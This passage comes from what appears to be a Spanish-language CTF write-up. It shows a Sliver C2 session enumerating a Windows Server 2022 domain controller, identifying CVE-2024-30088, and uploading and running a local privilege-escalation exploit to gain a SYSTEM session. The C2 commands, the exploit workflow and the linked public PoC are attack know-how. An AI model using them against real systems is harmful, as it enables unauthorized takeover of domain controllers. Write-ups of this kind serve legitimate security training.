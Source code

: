 Bien, ahora con nuestra sesión, podemos hacer muchas más cosas, así que empecemos con la enumeración:

```js
sliver (MUDDY_CLAVICLE) > execute -o systeminfo

[*] Output:

Host Name:                 DC02
OS Name:                   Microsoft Windows Server 2022 Datacenter
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
<SNIP!>
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Aquí ya detectamos una bandera roja: La versión `10.0.20348 N/A Build 20348` es vulnerable a un LPE: `CVE-2024-30088` el cual afecta hasta la versión `10.0.20348 N/A Build 2527` Para una lista de las builds, podemos utilizar la [lista oficial de Microsoft](https://support.microsoft.com/en-us/topic/june-11-2024-kb5039227-os-build-20348-2527-894a0e2d-6b5f-4c5b-9e61-82f45024ff4f).

### Local Privilege Escalation - CVE-2024-30088

Ahora bien, podemos utilizar el PoC de metasploit (ya que cuenta con un módulo para él) o, puedes utilziar el de un repositorio de [GitHub con el PoC](https://github.com/tykawaii98/CVE-2024-30088)

En el segundo caso, tendrás que modificarlo para ejecutar tu stager y compilarlo (Pasos que no cubriré).

Una vez con el ejecutable listo; lo subimos con el comando `upload` desde `Sliver` y lo ejecutamos con `execute`:

```js
sliver (MUDDY_CLAVICLE) > upload /home/path/To/exploits/poc.exe
sliver (MUDDY_CLAVICLE) > execute -o C:\\Windows\\Tasks\\poc.exe

[!] rpc error: code = Unknown desc = implant timeout
sliver (MUDDY_CLAVICLE) > sessions 

[*] Session 2a45a5b0 MUDDY_CLAVICLE - 10.10.11.89:50168 (DC02) - windows/amd64 - Mon, 13 Oct 2025 08:04:00 CST

sliver (MUDDY_CLAVICLE) > sessions

 ID         Name             Transport   Remote Address      Hostname   Username               Operating System   Locale   Last Message                            Health  
========== ================ =========== =================== ========== ====================== ================== ======== ======================================= =========
 2a45a5b0   MUDDY_CLAVICLE   http(s)     10.10.11.89:50168   DC02       NT AUTHORITY\SYSTEM    windows/amd64      en-US    Mon Oct 13 08:05:28 CST 2025 (2s ago)   [ALIVE] 
 7253834c   MUDDY_CLAVICLE   http(s)     10.10.11.89:50165   DC02       darkzero-ext\svc_sql   windows/amd64      en-US    Mon Oct 13 08:05:29 CST 2025 (1s ago)   [ALIVE] 
```
